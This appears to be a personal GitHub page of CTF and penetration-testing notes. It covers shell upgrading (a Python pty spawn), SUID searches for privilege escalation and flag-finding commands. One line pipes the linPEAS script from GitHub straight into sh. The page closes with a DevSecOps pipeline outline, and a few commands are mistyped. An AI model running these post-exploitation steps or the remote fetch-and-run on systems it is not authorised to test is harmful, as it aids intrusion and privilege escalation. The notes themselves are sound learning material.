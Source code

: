 # Random
Just a zunk of notes

###  Github command

```bash
git init                                                      
git remote add origin "Paste the link of the github"          
git remote -v                                                 
git add .                                                     
git commit -m "Name of the tool/subjet"                       
git push origin master.
```
### CTF Helper
```bash
https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
```
```bash
https://gtfobins.github.io/
```
```bash
https://highon.coffee/blog/penetration-testing-tools-cheat-sheet/
```
### Python TTY Shell
```bash
python -c 'import pty; pty.spawn("/bin/sh")' 
```
### Bash Shell
```bash
echo os.system('/bin/bash')
```
### shell-PostExploitation
```bash
find / -perm -u=s -type f 2>/dev/null
```
### To clear terminal after spwanning shell
```bash
export TERM=xterm
```
### Auto-complete fuction after gettting shell
```bash
stty raw - echo ; fg 
```
### Abusing SUID 
```bash
find / -type f -perm -4001 -exec ls -h {} \; 2> /dev/null
```
### Find Flags
```bash
→ find | grep flag 
→ find / -type f -name user.txt
→ find / -type -f name **name of the flag you want**
→ search -f flag*.txt #This will find the name called flag with file extension txt
```
### Quick Linux Privilege Escalataion
```bash
curl https://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-scripts-suite/master/linPEAS/linpeas.sh | sh
→ chmod +x linpeas.sh 
→ ./linpeas.sh
```
###  𝐖𝐡𝐚𝐭 𝐝𝐨𝐞𝐬 𝐃𝐞𝐯𝐒𝐞𝐜𝐎𝐩𝐬 𝐂𝐈/𝐂𝐃 𝐩𝐢𝐩𝐞𝐥𝐢𝐧𝐞 𝐥𝐨𝐨𝐤 𝐥𝐢𝐤𝐞?

```bash

🔹 1- 𝐏𝐥𝐚𝐧/𝐃𝐞𝐬𝐢𝐠𝐧
1.1 Threat modeling:
1.2 Secure SDLC

🔹2-𝐃𝐞𝐯𝐞𝐥𝐨𝐩
The Development stage starts with writing code and we can use shift-left security best practice which incorporates security thinking in the earliest stages of development.

2.1-Install linting tools inside the code editor like Visual Studio Code. One of the most popular linting tools is SonarLint. Which highlights bugs and security vulnerabilities as you write code.
-Use Pre-commit hooks to prevent adding any secrets to code.
-Setup Protected branch and code reviews process.
-Sign git commit with GPG key.
-Always verify the downloaded binary/file hash.
-Enable 2-factor authentication.

🔹3-𝐁𝐮𝐢𝐥𝐝 𝐚𝐧𝐝 𝐂𝐨𝐝𝐞 𝐚𝐧𝐚𝐥𝐲𝐬𝐢𝐬
3.1 Scan for secrets and credentials
3.2 Software Bill of Materials (SBOM)
3.2.1 Syft with Grype and Trivy
3.2.2 OWASP Dependency-Check
3.3 Static Application Security Testing (SAST)
3.4 Unit test
3.5 Dockerfile static scanning
3.6 Container image scan
3.7 Container image signing and verifying 
3.8 Container image validation test

🔹4-𝐓𝐞𝐬𝐭
4.1 Smoke test
4.2 API testing
4.3 Dynamic application security testing (DAST)

🔹5-𝐃𝐞𝐩𝐥𝐨𝐲
5.1 Static scan of Kubernete manifest file or Helm chart
5.2 Pre-deploy policy check Kubernete manifest YAML file
5.3 kube-bench for CIS scan
5.4 IaC scanning:

🔹6-𝐌𝐨𝐧𝐢𝐭𝐨𝐫 𝐚𝐧𝐝 𝐀𝐥𝐞𝐫𝐭
Monitoring and Alerting
6.1 Metrics monitoring
6.2 Log monitoring
6.3 Alerting
```
